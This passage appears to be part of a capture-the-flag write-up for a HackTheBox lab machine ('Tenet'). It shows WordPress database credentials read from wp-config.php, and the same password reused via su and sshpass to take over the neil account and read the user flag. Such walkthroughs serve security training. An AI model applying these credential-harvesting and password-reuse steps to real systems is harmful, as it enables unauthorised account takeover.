 On the blog, neil showed interest in the database. I’ll grab the creds from the `wp-config.php` file:

```

<?php                                                                                                         ...[snip]...
// ** MySQL settings - You can get this info from your web host ** //      
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );    

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
                                                          
/** MySQL hostname */
define( 'DB_HOST', 'localhost' );                

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'WP_HOME', 'http://tenet.htb');  
define( 'WP_SITEURL', 'http://tenet.htb');
...[snip]...

```

Noticing the DB username was neil, before connecting to the DB, I tried `su` with that password, and it worked:

```

www-data@tenet:/var/www/html/wordpress$ su - neil
Password: 
neil@tenet:~$

```

From here I could grab `user.txt`:

```

neil@tenet:~$ cat user.txt
567d3388************************

```

That password also works for SSH access as neil:

```

root@kali# sshpass -p Opera2112 ssh neil@10.10.10.223
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)
...[snip]...
Last login: Tue Jan 12 19:33:02 2021 from 10.10.14.2
neil@tenet:~$

```
